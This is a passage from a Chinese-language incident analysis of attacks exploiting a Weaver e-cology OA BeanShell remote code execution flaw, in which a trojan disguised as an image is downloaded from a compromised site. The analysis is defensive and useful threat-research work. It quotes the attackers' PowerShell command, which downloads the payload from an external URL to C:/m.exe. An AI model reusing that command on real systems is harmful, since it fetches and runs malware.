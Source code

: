 > 原文链接: https://www.anquanke.com//post/id/187748 


# 一次利用泛微OA最新漏洞攻击活动分析拓展


                                阅读量   
                                **852242**
                            
                        |
                        
                                                                                    



[![](https://p1.ssl.qhimg.com/t013de74e69656ee934.jpg)](https://p1.ssl.qhimg.com/t013de74e69656ee934.jpg)



## 背景

2019年9月17日泛微官方更新了关于e-cology OA的安全补丁，修复了一个远程代码执行漏洞。该漏洞位于e-cology OA系统BeanShell组件中，BeanShell组件为系统自带且允许未授权访问。攻击者通过构造恶意请求调用该存在问题的组件可在目标服务器执行任意命令。

在其后的几天，奇安信团队陆续接到了几起组织遭受入侵的应急响应请求。我们确认了攻击者通过利用了泛微e-cology OA的最新漏洞进行初始渗透，并通过从一些白网站下载后续的恶意代码。奇安信病毒响应中心还原了攻击过程，并对相关的恶意代码进行了分析，分享给安全社区来共同对抗威胁。



## 攻击过程还原

中招组织的机器是一台VPN服务器，运行了泛微的OA服务，存在最新被暴露的漏洞，攻击利用漏洞以后获取在服务器上的命令执行，漏洞被触发后从upload.erp321.com网站的静态资源下载木马到本地执行。

erp321.com是聚水潭开发的一个电商SaaS ERP系统，需要注册才能使用该系统，本次攻击使用了upload.erp321.com页面的静态资源放了一个木马，木马如何被传到此网站上目前未知，可能需要网络本身做排查。

分析确认被植入到网站并被受攻击者下载的木马为大灰狼远控的一个变种，木马执行起来后会去alicdn.com（又一个白网站，图床系统，可以通过正常的工具上传文件）下载下一阶段的Payload，其为伪装GIF文件的加密后的恶意代码，在内存中解密加载后连接C2进行远程控制。



## 攻击恶意代码细节

初始的漏洞利用的命令行参数如下：

```
powershell (new-object System.Net.WebClient).DownloadFile
( 'http://upload.erp321.com/files/temp/0fedee73171e4b5a9e63494526fce364.jpg',
'C:/m.exe')
```

通过“WEAVER\JDK\bin\javaw.exe”目录下的javaw执行调用Powershell下载木马到本地执行，WEAVER目录就是泛微的安装目录。

访问上述的这个静态资源，确认为一个伪装图片的木马：

[![](https://p3.ssl.qhimg.com/t01a0d5e6552efb52d1.png)](https://p3.ssl.qhimg.com/t01a0d5e6552efb52d1.png)
